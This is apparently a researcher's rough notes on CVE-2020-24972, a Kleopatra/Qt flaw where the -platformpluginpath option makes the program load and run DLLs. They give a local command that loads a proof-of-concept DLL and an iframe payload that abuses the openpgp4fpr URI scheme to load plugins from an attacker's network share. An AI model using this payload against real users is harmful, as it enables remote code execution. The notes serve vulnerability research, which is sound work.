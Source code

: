 So CVE-2020-24972 spans from another cve in actually. I don't remember the cve that got designated but it has to do with platformpluginpath cmdline option from qt. So in essence the problem comes from using qt, persee the option platformpluginpath . "This parameter is supposed to contain a directory path or UNC share pointing to Qt5 plugins. In other words, the target location should contain Dynamic Link Library (DLL) files on Windows. The Qt5 application, depending on certain metadata, will automatically execute those plugins as soon as they are loaded in memory." - zdi

So when a custom URI scheme is configured this can be exploited.

such we can run kleopatra.exe -platformpluginpath C:/Users/research/Desktop/poc to load and execute dll

Such we can derive since the were similar issues(cve's) from this blogpost https://www.zerodayinitiative.com/blog/2019/4/3/loading-up-a-pair-of-qt-bugs-detailing-cve-2019-1636-and-cve-2019-6739

<iframe src='openpgp4fpr: --platformpluginpath \\attacker-IP\share'>

need to add more details and test poc for later...
https://jeffs.sh/CVEs/CVE-2020-14049.txt
